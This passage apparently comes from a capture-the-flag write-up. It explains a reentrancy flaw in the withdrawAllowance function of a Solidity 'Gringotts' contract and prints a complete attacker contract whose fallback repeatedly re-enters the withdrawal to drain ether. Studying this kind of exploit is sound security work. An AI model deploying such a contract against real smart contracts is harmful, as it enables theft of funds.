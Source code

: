 ```solidity
	}
}
```
The contract begin with some variable initialized by the *constructor funciton* followed by a *modifier* and three functions *withdrawAllowance*, *donateToSorcery* and *queryCreditOfSorcery*.

As in the famous harry potter's bank you can deposit money in an account with the function *donateToSorcery* in the map sorceryAllowance and check the value of an account with the function *queryCreditOfSorcery*.

The only interesting and vulnerable function is *withdrawAllowance* who authorize the owner of a Gringotts account to withdraw 1/10 of the money deposited each year.

The line `msg.sender.call.value(allowancePerYear)()` makes us immediately think at the most famous blochain vulnerability, the reantrancy attack.

The main idea is to call the *withdrawAllowance* function through an external malicious contract in order to withdraw some ether and activate the fallback method of our malicious contract wich will call again the withdraw function like a loop again and again until there's no more ether.

There is some useful links about reentrancy attack :
- [Solidity documentation](https://solidity.readthedocs.io/en/v0.6.0/security-considerations.html#re-entrancy)
- [Hackernoon article](https://hackernoon.com/smart-contract-security-part-1-reentrancy-attacks-ddb3b2429302)
- [Nice medium arcticle](https://medium.com/@gus_tavo_guim/reentrancy-attack-on-smart-contracts-how-to-identify-the-exploitable-and-an-example-of-an-attack-4470a2d8dfe4)

After a few more readings we are ready to attack this contract.

### Get the money

This is the source code of my malicious contract :

```solidity
pragma solidity >=0.4.22 <0.6.0;

import "./golden3.sol";

contract GringottsCollect {
  Gringotts public gringotts;

  constructor(address _gringotts) public payable {
    gringotts = Gringotts(_gringotts);
  }

  function kill () public {
    selfdestruct(msg.sender);
  }

  function collect(address sorceryDestination) public payable {
    gringotts.donateToSorcery.value(msg.value)(sorceryDestination);
    gringotts.withdrawAllowance();
  }

  function () public payable {
    if (address(gringotts).balance >= msg.value) {
      gringotts.withdrawAllowance();
    }
  }
}
```

